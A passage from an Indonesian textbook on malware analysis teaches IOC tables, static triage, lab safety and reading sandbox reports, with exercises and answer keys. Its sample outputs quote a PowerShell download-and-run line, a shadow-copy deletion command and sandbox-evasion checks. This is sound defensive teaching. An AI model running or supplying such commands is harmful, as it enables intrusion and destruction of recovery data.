

## 6. Contoh Terapan

**IOC Table dari skenario insiden:**

| # | Tipe | Nilai | Confidence | Sumber | ATT&CK |
|---|---|---|---|---|---|
| 1 | File Hash (SHA256) | a3b4c5d6... | High | EDR, disk image | T1204.002 |
| 2 | Domain | c2server.xyz | High | DNS log | T1071.001 |
| 3 | IP Address | 185.220.101.45 | Medium | Firewall log | T1071.001 |
| 4 | File Path | `C:\Users\Public\payload.bin` | High | Sysmon Event 11 | T1105 |
| 5 | Registry Key | `HKCU\...\Run\updater` | High | Registry hive | T1547.001 |
| 6 | URL | `http://c2server.xyz/payload.bin` | High | Proxy log | T1105 |
| 7 | User Agent | `curl/7.68.0` dalam HTTP browser session | Medium | Proxy log | T1071.001 |
| 8 | Username | `backdoor` | High | Security Event 4720 | T1136.001 |
| 9 | Scheduled Task | `\Microsoft\Windows\updater_task` | High | Sysmon Event 1 | T1053.005 |
| 10 | Process Pattern | cmd.exe child of winword.exe | High | Sysmon Event 1 | T1566.001 |

## 7. Praktikum atau Aktivitas Terarah

**Tujuan:** Mengekstrak IOC dari dataset dan memformulasikan root cause hypothesis.

**Dataset:** Kumpulan log dari Bab 4 dan 5.

**Langkah:**
1. Ekstrak semua IOC dari log (jaringan dan host) menggunakan Python atau manual parsing.
2. Buat IOC Table dengan kolom: tipe, nilai, confidence, sumber, ATT&CK technique.
3. Klasifikasikan setiap IOC dalam Pyramid of Pain.
4. Formulasikan root cause hypothesis dengan format terstruktur di atas.
5. Identifikasi evidence gap: apa yang masih belum diketahui?
6. Susun laporan triage ringkas (1-2 halaman) yang mencakup: temuan utama, IOC, hypothesis, rekomendasi tindak lanjut.

**Output:** IOC table + root cause hypothesis + laporan triage — bagian dari Eval-2.

## 8. Latihan Pemahaman

1. **(C4)** Berdasarkan Pyramid of Pain, mengapa menginvestasikan waktu dalam menulis Sigma rule berbasis TTP (misalnya: "PowerShell yang mendownload file dari internet") lebih bernilai secara strategis dibandingkan hanya memblokir hash file malware?

2. **(C3)** Apa yang dimaksud dengan "evidence gap" dalam root cause hypothesis, dan mengapa penting untuk mendokumentasikannya secara eksplisit?

## 9. Latihan Terapan / Studi Kasus

Diberikan IOC table dari investigasi insiden, Anda harus menentukan confidence level keseluruhan hypothesis bahwa "attacker adalah APT group yang dikenal dengan kampanye espionase terhadap sektor energi Indonesia." IOC yang tersedia: (a) hash file malware → match dengan kampanye APT yang dipublikasikan 2023; (b) C2 IP ada di threat intel feed sebagai "APT infrastructure" (dilaporkan 3 bulan lalu); (c) teknik yang digunakan: spear phishing (T1566.001), in-memory execution (T1059.001 via PowerShell IEX), LDAP reconnaissance (T1087.002). Evaluasi: apa yang mendukung dan apa yang melemahkan hypothesis ini? Apa yang hilang untuk meningkatkan confidence?

## 10. Kunci Jawaban dan Pembahasan

**Soal 1:** Blokir hash: attacker tinggal mengubah satu byte dalam file (misalnya menambahkan spasi di akhir), menghasilkan hash yang sama sekali berbeda — dalam 5 menit bypass. Sigma rule berbasis TTP "PowerShell download": attacker harus mengubah cara fundamental mereka menggunakan PowerShell untuk download — mungkin beralih ke tool lain, menggunakan teknik yang lebih kompleks, atau bahkan mengganti seluruh delivery mechanism. Ini mahal dalam waktu dan resources. Selain itu, TTP-based detection berlaku untuk banyak malware berbeda yang menggunakan teknik yang sama — satu rule bisa mendeteksi ratusan malware families yang semuanya menggunakan teknik yang sama.

**Soal 2:** Evidence gap adalah informasi yang diperlukan untuk mengkonfirmasi atau menyangkal hypothesis namun belum tersedia dari evidence saat ini. Mendokumentasikan evidence gap penting karena: (a) menginformasikan investigasi lebih lanjut — apa yang harus dicari selanjutnya; (b) menetapkan batas hypothesis — "kami menyimpulkan X, tapi kami tidak tahu Y, sehingga Z masih mungkin"; (c) mencegah kesimpulan prematur — investigator sering tergoda untuk mengisi gap dengan asumsi; mendokumentasikan gap secara eksplisit mencegah hal ini; (d) untuk pihak hukum: laporan yang transparan tentang apa yang diketahui dan tidak diketahui lebih dapat dipercaya.

**Studi Kasus Attribution Confidence:** Yang mendukung hypothesis APT: (a) hash match dengan kampanye dikenal; (b) IP C2 dalam threat intel sebagai APT infrastructure; (c) TTP teridentifikasi (spear phishing, in-memory PowerShell, LDAP recon) konsisten dengan profil APT. Yang melemahkan: (a) hash dan IP bisa dipalsukan oleh attacker lain yang ingin "blame" APT tertentu (false flag); (b) TTP bisa serupa dengan banyak actor berbeda — spear phishing bukan eksklusif satu APT; (c) informasi C2 sudah 3 bulan lama — mungkin sudah diketahui banyak actor dan infrastructure bisa di-reuse. Evidence yang dibutuhkan untuk meningkatkan confidence: (a) malware source code atau PE section analysis yang menunjukkan kompilasi dari builder yang sama dengan sampel APT sebelumnya; (b) artifact unik dalam malware (custom string, config format) yang spesifik untuk satu grup; (c) TTPs yang lebih spesifik dan tidak umum. Confidence saat ini: LOW–MEDIUM. "Consistent with" bukan "attributed to."

## 11. Ringkasan Bab

IOC dikategorikan berdasarkan Pyramid of Pain: hash (trivial) → IP/domain (mudah) → artifacts → tools → TTPs (sulit). Root cause hypothesis adalah pernyataan terstruktur dengan supporting evidence, confidence level, dan evidence gaps yang eksplisit. IOC table yang komprehensif menjadi dasar deteksi, blocking, dan analisis lebih lanjut.

## 12. Refleksi Profesional

1. Dalam investigasi insiden, ada tekanan dari management untuk segera menyimpulkan "siapa yang melakukan ini" — attribution yang cepat terasa lebih memuaskan dari sudut pandang komunikasi krisis. Namun attribution yang prematur dan salah dapat memiliki konsekuensi hukum dan diplomatik yang serius. Bagaimana Anda mengelola ekspektasi stakeholder tentang attribution sambil menjaga standar evidentiary yang tinggi?


---

# BAB 7 — MALWARE TAXONOMY, STATIC TRIAGE, DAN KESELAMATAN LAB

## 1. Capaian Pembelajaran Bab

Setelah mempelajari bab ini, mahasiswa mampu:
- Mengklasifikasikan malware berdasarkan taksonomnya
- Melakukan static triage malware secara aman dalam lingkungan yang terkontrol
- Mengidentifikasi indikator dari analisis statis: metadata file, strings, PE header
- Menerapkan prosedur keselamatan lab analisis malware secara konsisten

*Berkaitan dengan Sub-CPMK-3, Eval-3 (25%)*

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    A[Malware Analysis Foundation] --> B[Malware Taxonomy]
    B --> B1["Ransomware: enkripsi file,\nextortion"]
    B --> B2["Trojan: menyamar sebagai\nsoftware legitimate"]
    B --> B3["Worm: self-propagating\nvia network"]
    B --> B4["Backdoor/RAT: remote access\npersistence"]
    B --> B5["Infostealer: credential,\ncookies, credit card"]
    B --> B6["Dropper/Loader: mengunduh\ndan install malware lain"]
    B --> B7["Rootkit: menyembunyikan\npresence-nya sendiri"]
    B --> B8["Botnet agent: koordinasi\nattack atau spam"]
    A --> C[Static Analysis]
    C --> C1["File identification:\nmagic bytes, file type"]
    C --> C2["Hashing: MD5, SHA-256\nuntuk de-duplication dan lookup"]
    C --> C3["Strings extraction:\nURL, IP, registry keys,\ncommand strings"]
    C --> C4["PE header analysis:\nsections, imports, exports"]
    C --> C5["Packer detection:\nentropy analysis"]
    A --> D[Lab Safety]
    D --> D1["Isolated VM: no internet,\nno shared folders"]
    D --> D2["Snapshots: sebelum analisis"]
    D --> D3["Network monitoring:\nIsolated VLAN jika perlu"]
    D --> D4["Never analyze live:\ngunakan copy/image"]
```

## 3. Pengantar Kontekstual

Analisis malware adalah disiplin yang membutuhkan keseimbangan antara rasa ingin tahu ilmiah dan kedisiplinan keselamatan yang ketat. Setiap sampel malware, betapapun "tidak berbahaya" kelihatannya, harus diperlakukan sebagai bahan berbahaya — sama seperti seorang mikrobiologis tidak membuka biakan bakteri di luar lemari keamanan biologis. Bab ini memulai dengan taksonomi untuk memberikan konteks, kemudian mengajarkan analisis statis yang dapat dilakukan tanpa menjalankan malware, dan menekankan protokol keselamatan yang tidak dapat dikompromis.

**PERINGATAN PENTING:** Seluruh aktivitas analisis malware dalam buku ini hanya boleh dilakukan pada sampel yang telah diizinkan oleh dosen pengampu, dalam lingkungan VM yang terisolasi, tanpa koneksi internet. Tidak ada eksekusi malware di luar sandbox yang diotorisasi. Dilarang membagi sampel malware dengan pihak lain.

## 4. Landasan Teori

### 4.1 Taksonomi Malware

Memahami jenis malware membantu memprediksi perilakunya dan menentukan prioritas investigasi:

**Ransomware:**
Mengenkripsi file korban dan menuntut tebusan untuk dekripsi. Merupakan ancaman paling merusak secara finansial saat ini. Karakteristik: (a) mencari dan mengenkripsi file dengan ekstensi tertentu (.docx, .xlsx, .pdf, dll.); (b) menghapus Shadow Copies untuk mencegah recovery; (c) meninggalkan ransom note; (d) komunikasi C2 untuk mengirim encryption key.

**Trojan:**
Menyamar sebagai software legitimate untuk menipu user mengeksekusinya. Tidak self-replicating. Dapat mengandung berbagai payload: backdoor, infostealer, downloader.

**Worm:**
Self-propagating — dapat menyebar ke host lain tanpa interaksi manusia. Menyebar melalui: network shares (SMB), email, USB, exploiting vulnerabilities. Bahaya: dapat menyebar sangat cepat dalam jaringan yang tidak tersegmentasi.

**Remote Access Trojan (RAT) / Backdoor:**
Memberikan attacker remote control atas sistem yang dikompromis. Fitur umum: file manager, shell access, keylogging, screen capture, credential theft. Contoh historis: NetBus, Sub7, DarkComet (untuk educational purpose); contoh modern yang digunakan APT: njRAT, QuasarRAT.

**Infostealer:**
Dirancang untuk mencuri informasi: credential browser, cookie session, credit card tersimpan, password manager, cryptocurrency wallet. Sering dijual sebagai MaaS (Malware-as-a-Service). Data yang dicuri dikirim ke C2 atau email attacker.

**Dropper/Loader:**
"Stage 1" malware yang tugasnya mendownload dan mengeksekusi malware tahap berikutnya. Sering kecil, obfuscated, dan sulit dideteksi. Contoh: satu macro Word sederhana yang mendownload dan mengeksekusi RAT yang lebih besar.

**Rootkit:**
Menyembunyikan keberadaannya sendiri dari OS dan security tools. Kernel-level rootkits sangat sulit dideteksi dari dalam OS yang terinfeksi. Memerlukan analisis dari luar (memory forensics, offline boot analysis).

### 4.2 Static Triage — Analisis Tanpa Eksekusi

Static analysis menganalisis malware tanpa menjalankannya, sehingga aman dilakukan bahkan di luar sandbox.

**Langkah 1: File Identification**
```bash
# Cek tipe file sebenarnya (jangan percaya ekstensi saja)
file suspicious_sample.pdf
# Output mungkin: "PE32 executable (GUI) Intel 80386" 
# → Ini bukan PDF! Ini Windows executable yang diberi nama palsu

# Atau menggunakan Python:
import magic
m = magic.from_file('suspicious_sample.pdf')
print(m)  # "PE32 executable..."

# Alternatif: cek magic bytes secara manual
# PE (Windows EXE): dimulai dengan "MZ" (4D 5A)
xxd suspicious_sample.pdf | head -2
# 00000000: 4d5a 9000 0300 0000 ...  (4d 5a = "MZ")
```

**Langkah 2: Hashing untuk Lookup**
```bash
# Hitung hash untuk lookup di threat intelligence
md5sum sample.exe
sha256sum sample.exe
sha1sum sample.exe

# Output: 
# MD5:    d41d8cd98f00b204e9800998ecf8427e  sample.exe
# SHA256: e3b0c44298fc1c149afb...           sample.exe

# Dengan hash SHA-256, cari di:
# - https://www.virustotal.com (hash lookup, tidak perlu upload)
# - https://bazaar.abuse.ch (MalwareBazaar)
# - Offline: database hash dari threat intel feed (MISP, OTX)
```

**Langkah 3: Strings Extraction**
```bash
# Tool standar: strings (Linux/macOS)
strings sample.exe | head 100
strings -a -n 6 sample.exe > strings_output.txt  # -a: all sections, -n 6: min 6 chars

# Hal yang dicari dalam output strings:
# 1. URL dan domain: http://, https://, ftp://
# 2. IP address
# 3. Registry key paths
# 4. File paths yang mencurigakan
# 5. Windows API function names (CreateRemoteThread, VirtualAlloc = injection indicator)
# 6. Perintah CMD/PowerShell
# 7. Error messages yang bisa mengungkap fungsi
# 8. Teks yang mungkin adalah ransom note
# 9. Encoded strings (Base64, hex)

# Mencari URL dalam strings output:
grep -E 'https?://[^[:space:]]+' strings_output.txt
# Mencari IP:
grep -E '\b([0-9]{1,3}\.){3}[0-9]{1,3}\b' strings_output.txt
# Mencari registry:
grep -i 'hkey\|hklm\|hkcu\|software\\' strings_output.txt -i
```

**Langkah 4: PE Header Analysis (Windows Executable)**

```python
"""Analisis PE header menggunakan pefile library"""
import pefile
import datetime

# HANYA gunakan pada dataset resmi dari dosen dalam VM terisolasi
pe = pefile.PE('sample.exe')

# Compilation timestamp
timestamp = pe.FILE_HEADER.TimeDateStamp
print(f"Compiled: {datetime.datetime.utcfromtimestamp(timestamp)}")
# Catatan: timestamp bisa di-spoof oleh attacker

# Imported DLLs dan functions (indikator kapabilitas malware)
print("\nImported Libraries:")
for entry in pe.DIRECTORY_ENTRY_IMPORT:
    print(f"  [{entry.dll.decode()}]")
    for imp in entry.imports:
        if imp.name:
            print(f"    - {imp.name.decode()}")

# Suspicious imports yang sering digunakan malware:
# VirtualAlloc, VirtualAllocEx → memory allocation (injeksi)
# WriteProcessMemory → menulis ke proses lain (injeksi)
# CreateRemoteThread → membuat thread di proses lain (injeksi)
# SetWindowsHookEx → keylogging
# CryptEncrypt, CryptDecrypt → enkripsi (ransomware)
# RegSetValueEx → memodifikasi registry (persistence)
```

**Langkah 5: Packer/Obfuscation Detection**

Entropy adalah ukuran "keacakan" data. File normal memiliki entropy rendah–medium (sekitar 4-6 bit/byte). File terenkripsi atau terkompresi (termasuk malware yang di-pack) memiliki entropy tinggi (>7 bit/byte).

```python
"""Hitung entropy per section PE file"""
import pefile
import math

def calculate_entropy(data):
    if not data:
        return 0
    entropy = 0
    for x in range(256):
        p_x = float(data.count(bytes([x]))) / len(data)
        if p_x > 0:
            entropy -= p_x * math.log2(p_x)
    return entropy

pe = pefile.PE('sample.exe')
print("Section Entropy:")
for section in pe.sections:
    section_data = section.get_data()
    entropy = calculate_entropy(section_data)
    flag = " ← HIGH ENTROPY (possibly packed/encrypted)" if entropy > 7 else ""
    print(f"  {section.Name.decode().strip()}: {entropy:.2f} bits/byte{flag}")

# Output contoh:
# .text: 5.34 bits/byte
# .rdata: 3.21 bits/byte
# .data: 7.89 bits/byte ← HIGH ENTROPY (possibly packed/encrypted)
```

### 4.3 Protokol Keselamatan Lab

**Persyaratan minimum lab malware analysis yang aman:**

1. **VM terisolasi:** Jalankan analisis HANYA dalam VM dengan:
   - Network adapter diset ke "Host-only" atau "Isolated" — tidak ada akses ke internet
   - Shared folders DINONAKTIFKAN
   - Clipboard sharing DINONAKTIFKAN
   - Drag-and-drop DINONAKTIFKAN

2. **Snapshot sebelum analisis:** Ambil snapshot VM bersih sebelum memulai. Setelah analisis, revert ke snapshot bersih.

3. **Transfer file yang aman:** Gunakan hanya metode yang terkontrol untuk memasukkan sampel ke VM (misalnya ISO mount atau transfer via SFTP ke host analysis network yang terisolasi — bukan USB dari mesin produksi).

4. **Dokumentasi:** Catat semua langkah yang dilakukan — ini untuk reproducibility dan untuk menjelaskan jika ada pertanyaan tentang apa yang dilakukan dalam VM.

5. **Tidak ada sample sharing:** Sampel malware tidak boleh dibagi di luar environment lab tanpa otorisasi eksplisit.

## 5. Model atau Arsitektur

```mermaid
flowchart TD
    subgraph STATIC_ANALYSIS["Static Triage Workflow"]
        RECEIVE["Terima sampel dari dosen\n(hash sudah diverifikasi)"]
        VM_SETUP["Setup VM Terisolasi:\nno internet, snapshot diambil"]
        TRANSFER["Transfer sampel ke VM\nmelalui metode yang diotorisasi"]
        FILE_ID["File Identification:\nmagic bytes, file command"]
        HASH["Hashing:\nMD5 + SHA-256 untuk lookup"]
        LOOKUP["Threat Intel Lookup:\n(offline: MISP/OTX/hash database)"]
        STRINGS["Strings Extraction:\nURL, IP, registry, API calls"]
        PE_ANALYSIS["PE Header Analysis\n(jika Windows PE):\nimports, sections, timestamp"]
        ENTROPY["Entropy Analysis:\ncek apakah packed/encrypted"]
        REPORT["Static Analysis Notes:\ntemuan, IOC, hypothesis"]
        REVERT["Revert VM ke snapshot bersih"]
        
        RECEIVE --> VM_SETUP
        VM_SETUP --> TRANSFER
        TRANSFER --> FILE_ID
        FILE_ID --> HASH
        HASH --> LOOKUP
        LOOKUP --> STRINGS
        STRINGS --> PE_ANALYSIS
        PE_ANALYSIS --> ENTROPY
        ENTROPY --> REPORT
        REPORT --> REVERT
    end
```

## 6. Contoh Terapan

**Analisis statis sampel "invoice.exe" dari skenario insiden:**

```bash
# Semua perintah dijalankan dalam VM terisolasi

# 1. Identifikasi file
file invoice.exe
# Output: PE32 executable (GUI) Intel 80386, for MS Windows
# ✓ Konfirmasi: ini Windows PE, bukan PDF/invoice

# 2. Hashing
sha256sum invoice.exe
# a3b4c5d6e7f8901234567890abcdef...
md5sum invoice.exe
# 5f4dcc3b5aa765d61d8327deb882cf99

# 3. Cek threat intel (offline lookup di database)
# [Hasil lookup: SHA256 match dengan Emotet dropper campaign, September 2025]

# 4. Strings yang menarik
strings invoice.exe | grep -i "http\|ftp\|\.exe\|cmd\|powershell"
# Output (contoh):
# http://185.220.101.45/second_stage.bin
# cmd.exe /c powershell -NoP -Exec Bypass -W Hidden -Enc <base64>
# C:\Users\Public\stage2.exe

# 5. Strings base64 decode:
echo "<base64_string>" | base64 -d
# Output: IEX(New-Object Net.WebClient).DownloadString('http://...')
# → PowerShell IEX download — C2 URL teridentifikasi

# 6. Packer check (entropy section .text tinggi = likely packed)
# Menggunakan Python pefile script dari atas:
# .text: 7.91 bits/byte ← HIGH — packed!
# → Jika packed, dynamic analysis diperlukan untuk lihat actual code
```

## 7. Praktikum atau Aktivitas Terarah

**Tujuan:** Melakukan static triage pada sampel malware yang disediakan dosen.

**Sampel:** Dataset dari dosen berisi hash dan file sampel yang telah di-sanitasi (non-executable atau di dalam encrypted archive dengan password yang diberikan saat lab).

**Langkah:**
1. Setup VM terisolasi (no internet), ambil snapshot awal.
2. Transfer sampel ke VM.
3. Jalankan static analysis pipeline: file identification, hashing, strings extraction, PE header analysis, entropy check.
4. Catat semua temuan dalam format Static Analysis Notes.
5. Lakukan lookup hash secara offline menggunakan database yang disediakan dosen.
6. Identifikasi: tipe malware, IOC dari static analysis, confidence level.
7. Revert VM ke snapshot bersih setelah selesai.

**Output:** Static analysis notes — bagian dari Eval-3.

**Catatan keselamatan:** Tidak ada eksekusi malware pada langkah ini. Semua analisis bersifat pasif (membaca file, tidak menjalankan).

## 8. Latihan Pemahaman

1. **(C2)** Mengapa entropy tinggi pada section `.text` PE file adalah indikator bahwa malware mungkin "packed"? Apa implikasinya untuk kemampuan static analysis?

2. **(C4)** Anda menemukan import `CreateRemoteThread` dan `WriteProcessMemory` dalam PE import table. Apa kemampuan yang kemungkinan dimiliki malware ini, dan teknik ATT&CK apa yang paling relevan?

3. **(C3)** Mengapa strings extraction saja tidak cukup untuk analisis malware modern? Apa keterbatasan utamanya?

## 9. Latihan Terapan / Studi Kasus

Diberikan output strings dari sampel malware (disediakan dosen sebagai text file, bukan executable), Anda harus: (a) identifikasi semua network IOC; (b) identifikasi semua host IOC; (c) identifikasi Windows API calls yang mengindikasikan kemampuan malware; (d) berikan hipotesis tentang tipe malware dan fungsinya berdasarkan strings saja; (e) tentukan apakah static analysis sudah cukup atau dynamic analysis diperlukan, dan mengapa.

## 10. Kunci Jawaban dan Pembahasan

**Soal 1:** Entropy tinggi pada section `.text` (yang seharusnya berisi kode program) berarti data dalam section tersebut "terlalu acak" untuk menjadi kode assembler biasa. Ini adalah tanda bahwa section tersebut dienkripsi atau dikompresi oleh packer. Packer mengubungkan malware dalam layer kompresi/enkripsi untuk: (a) menghindari deteksi AV berbasis signature (signature berubah setiap kali pack berbeda); (b) menyembunyikan strings, import, dan struktur kode dari analisis statis. Implikasi: static analysis terbatas pada outer layer (packer) — tidak bisa melihat actual malware code. Diperlukan dynamic analysis untuk mengeksekusi unpacking routine dan menginspeksi malware setelah di-unpack di memori.

**Soal 2:** `CreateRemoteThread` + `WriteProcessMemory` mengindikasikan kemampuan Process Injection — kemampuan untuk menyisipkan dan mengeksekusi kode dalam proses lain (misalnya menyisipkan DLL atau shellcode ke dalam proses browser). ATT&CK techniques: T1055 (Process Injection), T1055.001 (Dynamic-link Library Injection), T1055.002 (Portable Executable Injection). Tujuan: (a) menyembunyikan aktivitas di bawah proses legitimate (misalnya svchost.exe atau explorer.exe); (b) menghindari deteksi AV yang memonitor process launch tapi tidak injection.

**Soal 3:** Keterbatasan strings extraction: (a) malware modern menggunakan obfuscation — string yang kritis dienkripsi dalam binary dan di-decrypt saat runtime; strings extraction hanya melihat data sebelum decryption; (b) packed malware: strings di bawah packer tidak accessible sampai runtime; (c) false positives: banyak strings yang tidak relevan (Windows library strings, dll.) membuat analisis lebih sulit; (d) polymorphic malware mengubah strings setiap generasi; (e) string yang dibangun secara dinamis (misalnya karakter demi karakter dalam kode) tidak muncul sebagai string yang readable.

**Studi Kasus (framework jawaban):** (a) Network IOC: semua URL, domain, IP dalam strings; (b) Host IOC: registry paths, file paths, executable names; (c) API indicators: contoh — VirtualAlloc (memory allocation), InternetOpen/InternetConnect (network), RegSetValueEx (registry modification), CreateService (persistence); (d) Hypothesis tipe malware: berdasarkan API dan strings — misal jika ada InternetOpen + WriteFile + RegSetValueEx + path ke %APPDATA% → kemungkinan downloader/trojan dengan persistence; (e) Dynamic analysis diperlukan jika: entropy tinggi (packed), strings sedikit dan tidak informatif, API calls mengindikasikan behavior yang perlu dikonfirmasi.

## 11. Ringkasan Bab

Taksonomi malware mencakup ransomware, trojan, worm, RAT, infostealer, dropper, rootkit, dan botnet agent. Static triage meliputi: identifikasi file, hashing, strings extraction, PE header analysis, dan entropy check. Keselamatan lab adalah prasyarat non-negotiable: VM terisolasi tanpa internet, snapshot sebelum analisis, tidak ada sample sharing.

## 12. Refleksi Profesional

1. Analisis malware dilakukan pada sampel yang "illegal" untuk dimiliki atau disebarkan dalam banyak yurisdiksi. Bagaimana komunitas keamanan siber global mengelola paradoks ini — kebutuhan untuk menganalisis malware versus kewajiban hukum? Apa prosedur etis dan legal yang harus diikuti oleh peneliti keamanan Indonesia?

---

# BAB 8 — BEHAVIORAL ANALYSIS, SANDBOX, DAN DYNAMIC MALWARE ANALYSIS

## 1. Capaian Pembelajaran Bab

Setelah mempelajari bab ini, mahasiswa mampu:
- Memahami prinsip dan limitasi dynamic/behavioral analysis malware
- Mengkonfigurasi environment sandbox untuk analisis malware yang aman
- Menginterpretasikan hasil behavioral analysis: process tree, network activity, registry, file system
- Mengidentifikasi teknik evasion sandbox yang umum

*Berkaitan dengan Sub-CPMK-3, Eval-3 (25%)*

## 2. Peta Konsep Bab



## 3. Pengantar Kontekstual

Static analysis menunjukkan *potensi* — apa yang mungkin dilakukan malware berdasarkan kodenya. Dynamic analysis menunjukkan *aktual* — apa yang sebenarnya dilakukan malware saat dieksekusi. Banyak malware modern menggunakan packing dan obfuscation yang membuat static analysis hampir tidak berguna tanpa dynamic analysis. Namun dynamic analysis menghadirkan risiko nyata: kita menjalankan malware. Sandbox adalah jawaban — lingkungan terkontrol di mana malware dapat "diberikan kebebasan" untuk berjalan sementara semua aktivitasnya direkam.

**PERINGATAN:** Dynamic analysis HANYA boleh dilakukan dalam environment yang telah dikonfigurasi khusus sesuai protokol lab. Tidak ada eksekusi malware di luar sandbox yang diotorisasi.

## 4. Landasan Teori

### 4.1 Arsitektur Sandbox untuk Malware Analysis

Sandbox adalah environment terisolasi yang merekam semua aktivitas malware saat dieksekusi. Komponen kunci:

**Monitoring Layer:**
- **API hooking:** Intercept calls ke Windows API (CreateFile, RegSetValue, dll.) sebelum dieksekusi → catat parameter dan return values
- **System call tracing:** Level lebih rendah dari API hooks, menangkap syscalls langsung ke kernel
- **Network capture:** Semua traffic network di-capture (PCAP) dan di-parse

**Network Simulation:**
Malware memerlukan koneksi C2 untuk berfungsi penuh. Dalam sandbox, tidak ada internet nyata, tapi network simulation menyediakan:
- **Fake DNS server:** Resolves semua domain ke IP yang dikontrol sandbox → malware pikir DNS berfungsi
- **Fake HTTP/HTTPS server:** Merespons semua request HTTP → malware pikir C2 merespons
- **SMTP stub:** Menerima email dari malware (tanpa benar-benar mengirim)

**Timeline dan Report Generation:**
Setelah malware berjalan (biasanya 2-5 menit), sandbox menghasilkan laporan otomatis berisi semua aktivitas yang terekam.

### 4.2 Menginterpretasikan Hasil Behavioral Analysis

**Process Tree:**
```
[Behavioral Report - Process Tree]

chrome.exe (PID 1234)
└── invoice.exe (PID 4532) ← spawned by browser download
    └── cmd.exe (PID 4533)
        └── powershell.exe (PID 4534)
            └── stage2.exe (PID 4535) ← downloaded and executed
                ├── svchost.exe (PID 4536) ← process hollowing?
                └── notepad.exe (PID 4537) ← process injection target?
```

Red flags dalam process tree:
- Browser/Office spawning cmd.exe atau powershell.exe langsung
- Proses legitimate (svchost, notepad) yang di-spawn oleh proses tidak dikenal
- Chain panjang dari satu proses awal (loader → dropper → payload)

**Registry Activity:**
```
Registry Operations:
- HKCU\Software\Microsoft\Windows\CurrentVersion\Run\updater
  = "C:\Users\Public\stage2.exe"  ← PERSISTENCE MECHANISM!
  
- HKLM\SYSTEM\CurrentControlSet\Services\SuspiciousService\
  ImagePath = "C:\Windows\Temp\malware.exe"  ← SERVICE PERSISTENCE
  
- HKCU\Software\MalwareFamily\Config\
  C2Server = "http://185.220.101.45"  ← CONFIG STORAGE
```

**File System Activity:**
```
File Operations:
- Created: C:\Users\Public\stage2.exe (2,048,576 bytes)
  MD5: 3f2a1b4c...
  
- Created: C:\ProgramData\.hidden\config.dat (encrypted config)

- Modified: C:\Windows\System32\drivers\etc\hosts
  ← RED FLAG: Malware memodifikasi hosts file (DNS poisoning lokal?)
  
- Deleted: C:\Users\Alice\Documents\important.docx (ransom behavior?)
  
- Created: C:\Users\Alice\Documents\important.docx.locked
  ← RED FLAG: Extension berubah = ransomware encryption!
```

**Network Activity:**
```
Network Connections:
- DNS Query: c2server.xyz → 185.220.101.45 (Fake DNS response dari sandbox)
- TCP Connect: 185.220.101.45:443 (HTTP to fake C2 server)
  Request: POST /checkin HTTP/1.1
  Headers: User-Agent: Mozilla/4.0 (compatible; MSIE 6.0)  ← Old IE UA!
  Body: (base64 encoded): dXNlcm5hbWU9YWxpY2U= (system info sent to C2)
  
- DNS Query: backup-c2.evil.ru → NXDOMAIN (backup C2 attempt)
```

### 4.3 Sandbox Evasion Techniques

Malware modern sering memeriksa apakah berjalan dalam sandbox dan menghentikan aktivitas berbahaya jika terdeteksi:

**Time-based evasion:**
```c
// Malware sleep untuk waktu lama sebelum aksi utama
// Sandbox otomatis biasanya hanya menjalankan selama 2-5 menit
Sleep(600000);  // Sleep 10 menit sebelum action
// Cara counter: percepat clock dalam VM, atau tunggu lebih lama
```

**Environment checks:**
```c
// Cek apakah jumlah CPU "too low" (VM biasanya 1-2 core)
if (GetSystemInfo().dwNumberOfProcessors < 4) { exit(0); }

// Cek username umum di VM (lab, sandbox, analyst)
char* username = getenv("USERNAME");
if (strcmp(username, "sandbox") == 0 || 
    strcmp(username, "malware") == 0) { exit(0); }

// Cek apakah disk terlalu kecil (VM disk biasanya < 100GB)
if (disk_space_total < 50GB) { exit(0); }
```

**VM detection:**
```c
// Cek registry artifacts dari hypervisor
HKLM\SOFTWARE\VMware, Inc.\VMware Tools
HKLM\SOFTWARE\Oracle\VirtualBox Guest Additions
// Jika ada → exit
```

**Strategi menghadapi evasion:**
- Patch time dalam VM (percepat waktu untuk bypass sleep)
- Gunakan "real-looking" VM: banyak file user, browser history, dokumen
- Set jumlah CPU ke 4+, disk ke 250GB+
- Gunakan username dan machine name yang realistis
- Akses hardware yang membuat VM terlihat "nyata" (screen movement, typing simulation)

## 5. Model atau Arsitektur



## 6. Contoh Terapan

**Menginterpretasikan output sandbox report untuk klasifikasi malware:**

Diberikan ringkasan behavioral report (dataset dari dosen):

```
=== BEHAVIORAL ANALYSIS REPORT ===
Sample: sample_001.exe
Duration: 120 seconds

PROCESS TREE:
sample_001.exe
├── cmd.exe (PID 892)
│   └── powershell.exe -NoP -Exec Bypass -E "JABjAD0..."
│       └── [Memory: Shellcode injected into explorer.exe]
└── vssadmin.exe Delete Shadows /All /Quiet  ← CRITICAL!

FILES:
- Created 847 files with extension .locked in C:\Users\*
- Deleted: original versions of 847 files
- Created: C:\Users\Public\Desktop\README_DECRYPT.txt

REGISTRY:
- HKCU\...\Run\CriticalUpdate = "C:\ProgramData\.x\sample_001.exe"

NETWORK:
